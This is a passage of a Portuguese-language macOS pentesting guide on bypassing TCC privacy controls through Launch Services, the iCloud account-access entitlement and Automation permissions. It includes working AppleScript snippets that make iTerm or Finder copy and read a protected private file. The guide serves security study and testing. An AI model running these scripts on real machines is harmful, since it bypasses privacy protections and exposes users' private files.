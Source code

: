 Portanto, um usuário poderia registrar um aplicativo malicioso para lidar com todas as extensões e chamar o Launch Services para abrir qualquer arquivo (assim, o arquivo malicioso terá acesso para lê-lo).

### iCloud

Com a permissão `com.apple.private.icloud-account-access`, é possível se comunicar com o serviço XPC `com.apple.iCloudHelper`, que fornecerá tokens do iCloud.

O iMovie e o Garageband tinham essa permissão e outras que permitiam.

Para mais informações sobre a exploração para obter tokens do iCloud a partir dessa permissão, confira a palestra: [#OBTS v5.0: "What Happens on your Mac, Stays on Apple's iCloud?!" - Wojciech Regula](https://www.youtube.com/watch?v=_6e2LhmxVc0)

### kTCCServiceAppleEvents / Automation

Um aplicativo com a permissão `kTCCServiceAppleEvents` poderá controlar outros aplicativos. Isso significa que ele poderá abusar das permissões concedidas aos outros aplicativos.

Para mais informações sobre Scripts da Apple, confira:

{% content-ref url="macos-apple-scripts.md" %}
[macos-apple-scripts.md](macos-apple-scripts.md)
{% endcontent-ref %}

Por exemplo, se um aplicativo tiver permissão de Automação sobre o `iTerm`, por exemplo, neste exemplo o `Terminal` tem acesso sobre o iTerm:

<figure><img src="../../../../.gitbook/assets/image (2) (2) (1).png" alt=""><figcaption></figcaption></figure>

#### Sobre o iTerm

O Terminal, que não tem FDA, pode chamar o iTerm, que tem, e usá-lo para executar ações:

{% code title="iterm.script" %}
```applescript
tell application "iTerm"
    activate
    tell current window
        create tab with default profile
    end tell
    tell current session of current window
        write text "cp ~/Desktop/private.txt /tmp"
    end tell
end tell
```
{% endcode %} (This is a markdown tag and should not be translated)
```bash
osascript iterm.script
```
#### Sobre o Finder

Ou se um aplicativo tem acesso sobre o Finder, ele pode ter um script como este:
```applescript
set a_user to do shell script "logname"
tell application "Finder"
set desc to path to home folder
set copyFile to duplicate (item "private.txt" of folder "Desktop" of folder a_user of item "Users" of disk of home) to folder desc with replacing
set t to paragraphs of (do shell script "cat " & POSIX path of (copyFile as alias)) as text
end tell
do shell script "rm " & POSIX path of (copyFile as alias)
```
## Comportamento do aplicativo
